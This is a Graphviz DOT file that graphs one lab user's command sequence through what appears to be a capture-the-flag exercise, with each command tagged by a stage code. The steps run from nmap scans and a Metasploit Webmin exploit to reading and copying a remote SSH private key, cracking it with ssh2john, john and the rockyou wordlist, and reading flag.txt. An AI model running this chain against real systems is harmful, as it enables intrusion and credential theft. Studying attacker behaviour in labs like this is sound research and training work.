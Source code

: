 // creating graph for user: 87
digraph {
	node [shape=box]
	0 [label="nmap 172.18.1.5 M0 "]
	1 [label="nmap 172.18.1.5 A1 "]
	2 [label="nmap -p- 172.18.1.5 A1 "]
	3 [label="ssh 172.18.1.5 A16 "]
	4 [label="nmap -A 172.18.1.5 A1 "]
	5 [label="msfconsole M2 "]
	7 [label="search webmin M3 "]
	8 [label="use 3 A4 "]
	9 [label="show A5 "]
	10 [label="show all A5 "]
	11 [label="show options M5 "]
	12 [label="set RHOSTS 172.18.1.5 M6 "]
	14 [label="exploit M8 "]
	20 [label="use 0 A4 "]
	29 [label="use 3 A4 "]
	37 [label="ssh 172.18.1.5 A16 "]
	38 [label="ls ~/.ssh A10 A16 "]
	39 [label="ssh-keygen A16 "]
	40 [label="ls A10 "]
	41 [label="ls ~/.ssh A10 A16 "]
	42 [label="cd ~/.ssh A16 "]
	43 [label="ls A10 "]
	44 [label="cat id_rsa.pub M12 "]
	45 [label="ssh eve@172.18.1.5 M16 "]
	48 [label="ls A10 "]
	49 [label="ls -la A10 "]
	51 [label="ls A10 "]
	52 [label="cat id_rsa A1 A9 A11 A17 "]
	53 [label="ls A10 "]
	55 [label="ssh eve@10.1.17.4 cat ~/.ssh/id_rsa A1 A9 A11 A17 "]
	56 [label="ssh eve@172.18.1.5 cat ~/.ssh/id_rsa A1 A9 A11 A17 "]
	57 [label="ssh eve@172.18.1.5 cat '~/.ssh/id_rsa' A1 A9 A11 A17 "]
	58 [label="ssh eve@172.18.1.5 cat '~/.ssh/id_rsa' > key A1 A9 A11 A17 "]
	59 [label="ls A10 "]
	60 [label=".ssh2john.py A14 "]
	61 [label="./ssh2john.py A14 "]
	62 [label="./ssh2john.py key > crack.txt A14 "]
	63 [label="cat crack.txt A1 A9 A11 A17 "]
	64 [label="ls A10 "]
	66 [label="ls A10 "]
	67 [label="ls -la A10 "]
	69 [label="ls A10 "]
	70 [label="john crack.txt A14 "]
	72 [label="ls A10 "]
	74 [label="ls A10 "]
	75 [label="john crack.txt --wordlist=/usr/share/wordlists/rockyou.txt M14 "]
	78 [label="ls A10 "]
	80 [label="ls A10 "]
	81 [label="cat flag.txt M17 "]
	0 -> 1 [constraint=false]
	1 -> 2 [constraint=false]
	2 -> 3 [constraint=false]
	3 -> 4 [constraint=false]
	4 -> 5 [constraint=false]
	5 -> 7 [constraint=false]
	7 -> 8 [constraint=false]
	8 -> 9 [constraint=false]
	9 -> 10 [constraint=false]
	10 -> 11 [constraint=false]
	11 -> 12 [constraint=false]
	12 -> 14 [constraint=false]
	14 -> 20 [constraint=false]
	20 -> 29 [constraint=false]
	29 -> 37 [constraint=false]
	37 -> 38 [constraint=false]
	38 -> 39 [constraint=false]
	39 -> 40 [constraint=false]
	40 -> 41 [constraint=false]
	41 -> 42 [constraint=false]
	42 -> 43 [constraint=false]
	43 -> 44 [constraint=false]
	44 -> 45 [constraint=false]
	45 -> 48 [constraint=false]
	48 -> 49 [constraint=false]
	49 -> 51 [constraint=false]
	51 -> 52 [constraint=false]
	52 -> 53 [constraint=false]
	53 -> 55 [constraint=false]
	55 -> 56 [constraint=false]
	56 -> 57 [constraint=false]
	57 -> 58 [constraint=false]
	58 -> 59 [constraint=false]
	59 -> 60 [constraint=false]
	60 -> 61 [constraint=false]
	61 -> 62 [constraint=false]
	62 -> 63 [constraint=false]
	63 -> 64 [constraint=false]
	64 -> 66 [constraint=false]
	66 -> 67 [constraint=false]
	67 -> 69 [constraint=false]
	69 -> 70 [constraint=false]
	70 -> 72 [constraint=false]
	72 -> 74 [constraint=false]
	74 -> 75 [constraint=false]
	75 -> 78 [constraint=false]
	78 -> 80 [constraint=false]
	80 -> 81 [constraint=false]
	rankdir=LR
}
